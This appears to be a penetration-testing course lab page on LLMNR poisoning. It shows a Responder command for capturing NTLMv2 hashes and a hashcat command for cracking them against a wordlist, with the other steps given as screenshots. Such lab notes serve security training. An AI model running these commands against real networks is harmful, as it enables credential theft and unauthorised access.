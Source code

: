 ## LLMNR Poisoning - Capturing NTLMv2 Hashes
```bash
ifconfig 
sudo responder -I eth0
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-1.png"> 




</br>

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-2.png"> 






## Trigger an LLMNR Event

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-3.png"> 




## Dumping NTLMv2 Hashes
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-4.png"> 



## Save Hash to a file
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-5.png"> 



## Use Hashcat to crack the hash 
```bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-6.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-8.png"> 


## Use John to crack the hash 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-7.png"> 

